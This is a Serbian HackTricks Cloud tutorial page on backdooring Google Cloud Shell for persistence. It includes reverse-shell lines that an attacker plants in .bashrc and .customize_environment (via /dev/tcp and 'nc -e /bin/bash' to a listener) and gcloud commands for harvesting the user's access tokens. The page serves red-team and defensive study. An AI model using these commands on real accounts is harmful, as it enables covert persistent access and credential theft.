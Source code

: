 # GCP - Cloud Shell Upornost

{% hint style="success" %}
Naučite i vežbajte hakovanje AWS-a:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Obuka AWS Crveni Tim Stručnjak (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP-a: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Obuka GCP Crveni Tim Stručnjak (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Cloud Shell

Za više informacija pogledajte:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Trajna zadnja vrata

[**Google Cloud Shell**](https://cloud.google.com/shell/) pruža vam pristup komandnoj liniji za vaše cloud resurse direktno iz vašeg pregledača bez ikakvih dodatnih troškova.

Možete pristupiti Google-ovom Cloud Shell-u preko **web konzole** ili pokretanjem **`gcloud cloud-shell ssh`**.

Ova konzola ima neke zanimljive mogućnosti za napadače:

1. **Svaki Google korisnik sa pristupom Google Cloudu** ima pristup potpuno autentifikovanom Cloud Shell instanci (Servisni nalozi mogu, čak i ako su Vlasnici organizacije).
2. Pomenuta instanca će **zadržati svoj matični direktorijum najmanje 120 dana** ako se ne desi nikakva aktivnost.
3. Ne postoji **mogućnost za organizaciju da nadgleda** aktivnost te instance.

To u osnovi znači da napadač može postaviti zadnja vrata u matičnom direktorijumu korisnika i sve dok se korisnik povezuje na GC Shell svakih 120 dana barem, zadnja vrata će preživeti i napadač će dobiti shell svaki put kada se pokrene samo radeći:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

U home folderu postoji još jedan fajl pod nazivom **`.customize_environment`** koji će, ukoliko postoji, biti **izvršen svaki put** kada korisnik pristupi **cloud shell-u** (kao i u prethodnoj tehnici). Samo ubacite prethodnu backdoor ili neku sličnu kako biste održali postojanost dok god korisnik "često" koristi cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Važno je napomenuti da će se **prvi put kada se izvrši radnja koja zahteva autentikaciju**, pojaviti prozor za autorizaciju u korisnikovom pregledaču. Ovaj prozor mora biti prihvaćen pre nego što se komanda može izvršiti. Ako se pojavi neočekivani prozor, to bi moglo izazvati sumnju i potencijalno ugroziti korišćenu metodu postojanosti.
{% endhint %}

Ovo je prozor koji se pojavljuje prilikom izvršavanja `gcloud projects list` iz cloud shell-a (kao napadač) viđen u korisničkoj sesiji pregledača:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Međutim, ako je korisnik aktivno koristio cloud shell, prozor zahteva za autentikaciju se neće pojaviti i možete **prikupiti token korisnika sa**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Kako se uspostavlja SSH veza

Osnovno, koriste se ove 3 API poziva:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (će vam omogućiti da dodate svoj javni ključ koji ste kreirali lokalno)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (će pokrenuti instancu)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (će vam reći IP adresu Google Cloud Shell-a)

Međutim, možete pronaći dodatne informacije na [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Reference

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
